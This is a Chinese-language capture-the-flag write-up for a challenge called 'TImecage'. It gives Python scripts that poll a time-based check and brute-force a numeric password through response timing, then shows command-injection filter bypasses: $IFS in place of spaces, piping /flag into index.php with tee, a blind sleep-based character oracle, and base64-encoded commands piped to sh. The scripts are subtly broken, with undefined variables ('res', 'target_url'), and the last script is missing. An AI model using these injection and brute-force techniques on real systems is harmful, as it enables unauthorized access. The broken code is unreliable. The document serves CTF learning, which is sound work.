





# TImecage题解
## 考点
- RCE的一些绕过

## 分析与题解
### 第一关
先分析源码，可以确定当date(‘s’)==0时，随机数就是114，也就可以拿到一个线索：


搞个python脚本：
```python
import time
import re
import requests

url = "http://challenge.wucup.cn:21113/?input=114"
while True:
    # 防止请求过快
    time.sleep(0.5)
    r = requests.get(url)
    match = re.findall("The next challenge", res.text)
    if len(match)>1:
        print(r.text)
        break
```
### 第二关
获得路径为`Trapping2147483647.php`，然后得到如下源码，逻辑是先检查密码长度，如果长度一直则检查密码内容，因此需要爆破两个，即长度和内容，并且提示只有数字，这就好办了，爆就完事了：


脚本如下：
```python
import re
import time
import requests

url = "http://challenge.wucup.cn:21113/Trapping2147483647.php"
length = 0
password = ""

# 确定密码长度
for length in range(1, 128):
    response = requests.post(url, data={"pass": "a" * length})
    if "Length" not in response.text:
        print(length)
        break

# 爆破密码
for position in range(1, 9):
    for num in range(10):
        start_time = time.time()
        response = requests.post(target_url, data={"pass": password + str(num) + "0" * (length - position - 1)})
        end_time = time.time()
        if (end_time - start_time) > position:
            password += str(num)
            break
    print("Current password: ", password)

# 提交
resp = requests.post(target_url, data={"pass": password})
print(resp.text)
```
得到密码`56983215`，并拿到`EscapeEsc@p3Escape.php`。

### 第三关
得到如下源码，一看就是rce，但是过滤了{}[]()&<>空字符\，空格也不能包含，并且没有回显，想一下绕过：


#### 自己的wp
空格的话可以利用$IFS来绕，回显问题可以将我们cat 的内容写到已有的文件中，然后再访问查看，即利用index.php来回显:
```
cmd=cat$IFS$5/flag|tee$IFS$5index.php
```
再访问`index.php`：


#### 官方wp
可以通过`head -c n /flag | tail -c 1`获取flag的第n个字符（head 获取前 n 个字符，作为`tail -c 1`的输入，从而获取到第n个字符）

然后我们爆破这个字符，如果正确，那么就执⾏ `sleep(1)`

上述过程⽤ shell 命令表示就是`[$(head -c n /flag | tail -c 1)=爆破的字符] && sleep 2 `,通过这个命令，我们就能通过响应时间的差异，逐步得到 flag 的所有内容。

对于这个过滤，空格直接用`$IFS$9`绕过，其他特殊符号可以⽤ base64 编码绕过，也就是`echo base64 编码后的命令 | base64 -d | sh`，脚本如下：

